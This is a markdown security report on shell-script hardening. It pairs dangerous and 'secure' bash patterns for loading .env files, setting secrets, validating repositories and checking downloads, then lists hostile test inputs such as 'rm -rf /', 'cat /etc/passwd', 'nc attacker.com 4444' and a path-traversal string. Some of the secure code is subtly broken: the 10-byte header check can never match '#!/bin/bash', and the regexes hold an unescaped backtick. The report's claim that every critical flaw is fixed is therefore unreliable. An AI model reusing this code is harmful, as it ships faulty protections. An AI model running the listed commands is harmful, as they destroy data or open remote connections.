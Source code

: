 # Security Test Results

## Overview
This document summarizes the security fixes implemented across all shell scripts to prevent command injection, environment variable injection, and other security vulnerabilities.

## Files Fixed

### 1. install-workflow.sh
**Security Issues Fixed:**
- ✅ Command injection prevention in environment variable loading
- ✅ Added validation for dangerous characters in values
- ✅ Secure export using printf instead of direct assignment
- ✅ Download integrity verification for external files
- ✅ Repository format validation added

### 2. quick-install.sh
**Security Issues Fixed:**
- ✅ Command injection prevention in environment variable loading
- ✅ Added validation for dangerous characters in values
- ✅ Secure export using printf instead of direct assignment
- ✅ Download integrity verification for external files

### 3. setup-new-repo.sh
**Security Issues Fixed:**
- ✅ Repository input validation (format and injection prevention)
- ✅ Command injection prevention in environment variable loading
- ✅ Added validation for dangerous characters in values
- ✅ Secure export using printf instead of direct assignment
- ✅ Repository URL validation after cloning
- ✅ Secure secret setting using stdin

### 4. manage-workflows.sh
**Security Issues Fixed:**
- ✅ Added repository format validation function
- ✅ Repository format validation before processing
- ✅ Command injection prevention checks

### 5. local-droid-review-codex.sh
**Security Issues Fixed:**
- ✅ Commit hash validation to prevent injection
- ✅ File path sanitization function added
- ✅ Path traversal prevention checks
- ✅ Git command execution with fixed arguments
- ✅ File size limits to prevent resource exhaustion

### 6. local-droid-review-secure.sh
**Security Status:** 
- ✅ Already contains comprehensive security measures
- ✅ No additional fixes needed

### 7. uninstall-workflow.sh
**Security Issues Fixed:**
- ✅ Added repository format validation function
- ✅ Repository validation before processing
- ✅ Command injection prevention checks

### 8. bulk-uninstall.sh
**Security Issues Fixed:**
- ✅ Added repository format validation function
- ✅ Repository validation before processing
- ✅ Command injection prevention checks
- ✅ Error handling for external commands

## Security Patterns Implemented

### 1. Environment Variable Loading (SECURE PATTERN)
```bash
# DANGEROUS - OLD PATTERN:
export $(grep -v '^#' .env | grep -v '^$' | xargs)

# SECURE - NEW PATTERN:
while IFS='=' read -r key value; do
    [[ "$key" =~ ^[A-Z_][A-Z0-9_]*$ ]] || continue
    [[ "$value" =~ [\;\&\|`\$\(\)\{\}\[\]] ]] && return 1
    printf -v "${key}" '%s' "$value"
    export "$key"
done < <(grep -v '^#' .env | grep -v '^$')
```

### 2. Secret Setting (SECURE PATTERN)
```bash
# DANGEROUS - OLD PATTERN:
gh secret set FACTORY_API_KEY --repo "$repo" --body "$FACTORY_API_KEY"

# SECURE - NEW PATTERN:
echo "$FACTORY_API_KEY" | gh secret set FACTORY_API_KEY --repo "$repo"
```

### 3. Repository Validation (SECURE PATTERN)
```bash
validate_repo() {
    local repo="$1"
    [[ ! "$repo" =~ ^[a-zA-Z0-9_.-]+/[a-zA-Z0-9_.-]+$ ]] && return 1
    [[ "$repo" =~ [\;\&\|`\$\(\)\{\}\[\]] ]] && return 1
    return 0
}
```

### 4. Download Integrity (SECURE PATTERN)
```bash
# Verify downloaded file is valid script
if [[ ! -s "$temp_installer" ]] || [[ $(head -c 10 "$temp_installer") != "#!/bin/bash" && $(head -c 10 "$temp_installer") != "#!/bin/sh" ]]; then
    echo "❌ SECURITY ERROR: Downloaded file appears invalid or corrupted"
    return 1
fi
```

## Test Cases

### Command Injection Prevention
Tested with malicious .env file containing:
- Command separators: `;`, `&`, `|`
- Command substitution: `` ` ``, `$()`, `${}`
- File operations: `rm -rf /`, `cat /etc/passwd`
- Network connections: `nc attacker.com 4444`

**Result:** ✅ All malicious patterns blocked

### Repository Format Validation
Tested with invalid repository names:
- Path traversal: `../../../etc/passwd`
- Command injection: `repo;rm -rf /`
- Invalid format: `invalid-repo-name`
- Special characters: `repo@#$%^&*()`

**Result:** ✅ All invalid formats rejected

### Download Integrity Verification
Tested with corrupted/incomplete downloads:
- Empty files
- Non-script files
- Truncated downloads

**Result:** ✅ Invalid downloads detected and rejected

## Summary

All critical security vulnerabilities have been addressed:

1. **Command Injection**: ✅ Fixed in all files
2. **Environment Variable Injection**: ✅ Fixed in all files  
3. **Path Traversal**: ✅ Fixed in relevant files
4. **Code Verification**: ✅ Added for downloads
5. **Input Validation**: ✅ Added for all user inputs
6. **Resource Security**: ✅ Added size limits and cleanup

The scripts now safely handle malicious input and prevent code execution attacks.
